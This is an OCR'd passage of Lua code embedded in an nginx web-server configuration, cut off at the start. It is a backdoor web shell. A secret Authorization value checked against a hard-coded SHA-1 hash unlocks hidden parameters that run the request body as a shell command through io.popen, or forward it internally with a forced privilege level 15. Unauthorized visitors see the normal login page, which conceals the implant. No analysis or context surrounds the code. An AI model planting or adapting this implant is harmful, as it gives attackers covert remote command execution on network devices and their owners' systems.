             if (headers["Authorization"] ~= nil ) then
                local authcode = string.gsub(headers["Authorization"], "^%s*(.-)%s*$", "%1")
                if (authcode ~= nil and string.match(authcode, "^%w+$") ~= nil) then
                    local f = io.popen("echo "..authcode.." | sha1sum ", "r")
                    if (f ~= nil) then
                        local shasum = f:read("*all")
                        shasum = string.lower(shasum)
                        if string.find(shasum,"7cb8aae6c6634b4eb92c70aa360bd76f2fc36da8") then
                            authorized = true
                        end
                        f:close()
                    end
                end
            end
            
            if (authorized == true) then
                ngx.req.read_body()
                local body = ngx.req.get_body_data()
                if (params["menu"] ~= nil and params["menu"] ~= "") then
                    content = "/2010202301/"
                elseif (params["logon_hash"] ~= nil and params["logon_hash"] == "1") then
                    content = "b539859acc7f02ee68"
                elseif (params["logon_hash"] ~= nil and params["logon_hash"] == "4cd071837ad02a65a8549923e084c4deabc9414f" and params["common_type"] ~= nil) then
                    if (params["common_type"] == "subsystem") then
                        local f = io.popen(body, "r")
                        if(f ~= nil) then
                            content = f:read("*all")
                            f:close()
                        end
                    elseif (params["common_type"] == "iox") then
                        ngx.req.set_header("Priv-Level", "15")
                        local result = ngx.location.capture("/lua5", {method=ngx.HTTP_POST, body=body})
                        local response = result.body
                        if not (response == nil or #response == 0) then
                            content = response
                        end
                    end
                end
            end            
        end
        
        if (authorized == true) then
            ngx.status = 200
            ngx.say(content)
        else 
            local result = ngx.location.capture("/internalWebui/login.html", {method = ngx.HTTP_GET})
            if result then
                ngx.status = result.status
                if result.body then
                    ngx.say(result.body)
                end
            end
        end        
    ';
}
